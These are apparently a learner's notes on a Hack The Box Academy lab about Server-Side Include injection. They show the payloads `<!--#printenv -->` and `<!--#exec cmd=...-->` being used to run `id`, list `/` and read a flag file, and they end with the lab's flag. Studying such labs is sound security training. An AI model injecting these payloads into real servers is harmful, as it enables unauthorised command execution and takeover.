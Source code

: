 ﻿---
sticker: lucide//server-off
---
Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to`/page.shtml`, which displays some general information:

 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of`<!--#printenv -->`. This results in the following page:

 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the`exec` directive by providing the following username:`<!--#exec cmd="id" -->`



 ![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

# Question

![Pasted image 20250212142109.png](../../../../IMAGES/Pasted%20image%2020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![Pasted image 20250212142217.png](../../../../IMAGES/Pasted%20image%2020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![Pasted image 20250212142245.png](../../../../IMAGES/Pasted%20image%2020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![Pasted image 20250212142315.png](../../../../IMAGES/Pasted%20image%2020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
